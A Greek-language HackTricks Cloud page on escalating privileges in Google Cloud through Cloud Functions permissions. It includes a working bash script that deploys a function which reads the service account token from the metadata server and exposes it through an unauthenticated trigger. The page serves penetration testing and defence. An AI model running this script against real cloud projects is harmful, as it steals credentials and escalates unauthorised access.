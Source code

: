 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Περισσότερες πληροφορίες σχετικά με τις Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **δημιουργήσει μια νέα Cloud Function με αυθαίρετο (κακόβουλο) κώδικα και να της αναθέσει έναν Service Account**. Στη συνέχεια, να διαρρεύσει το token του Service Account από τα μεταδεδομένα για να κλιμακώσει τα δικαιώματα σε αυτόν.\
Ορισμένα δικαιώματα για να ενεργοποιηθεί η λειτουργία μπορεί να απαιτούνται.

Τα σενάρια εκμετάλλευσης για αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) και [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) και το προεγκατεστημένο αρχείο .zip μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **τροποποιήσει τον κώδικα μιας Function και ακόμη και να τροποποιήσει τον service account που είναι συνδεδεμένος** με στόχο την εξαγωγή του token.

{% hint style="danger" %}
Για να αναπτύξετε cloud functions θα χρειαστείτε επίσης δικαιώματα actAs πάνω στον προεπιλεγμένο service account υπολογιστή ή πάνω στον service account που χρησιμοποιείται για την κατασκευή της εικόνας.
{% endhint %}

Ορισμένα επιπλέον δικαιώματα όπως η άδεια `.call` για την έκδοση 1 cloudfunctions ή ο ρόλος `role/run.invoker` για να ενεργοποιήσετε τη λειτουργία μπορεί να απαιτούνται.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Αν λάβετε το σφάλμα `Permission 'run.services.setIamPolicy' denied on resource...` είναι επειδή χρησιμοποιείτε την παράμετρο `--allow-unauthenticated` και δεν έχετε αρκετά δικαιώματα γι' αυτό.
{% endhint %}

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Με αυτή την άδεια μπορείτε να αποκτήσετε μια **υπογεγραμμένη διεύθυνση URL για να μπορέσετε να ανεβάσετε ένα αρχείο σε έναν κάδο λειτουργίας (αλλά ο κώδικας της λειτουργίας δεν θα αλλάξει, πρέπει ακόμα να τον ενημερώσετε)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Δεν είμαι σίγουρος πόσο χρήσιμη είναι μόνο αυτή η άδεια από την προοπτική ενός επιτιθέμενου, αλλά καλό είναι να το γνωρίζουμε.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Δώστε στον εαυτό σας οποιοδήποτε από τα προηγούμενα **`.update`** ή **`.create`** δικαιώματα για να κλιμακώσετε.

### `cloudfunctions.functions.update`

Έχοντας μόνο **`cloudfunctions`** δικαιώματα, χωρίς **`iam.serviceAccounts.actAs`** δεν **θα μπορείτε να ενημερώσετε τη λειτουργία, ΕΤΣΙ ΑΥΤΟ ΔΕΝ ΕΙΝΑΙ ΜΙΑ ΕΓΚΥΡΗ ΚΛΙΜΑΚΩΣΗ.**

### Δικαιώματα Εγγραφής σε Bucket

Μπορεί να νομίζετε ότι ένας επιτιθέμενος με **δικαιώματα εγγραφής πάνω στο bucket** όπου αποθηκεύεται ο κώδικας των Cloud Functions θα μπορεί να **τροποποιήσει τον κώδικα αντικαθιστώντας** το `function_code.zip` και στη συνέχεια να κάνει τη λειτουργία να **εκτελεί αυθαίρετο** κώδικα.

{% hint style="success" %}
**Ωστόσο, αυτό δεν είναι αληθές, απλώς η αντικατάσταση του κώδικα μέσα στο bucket δεν θα τροποποιήσει τον κώδικα που εκτελείται.**
{% endhint %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
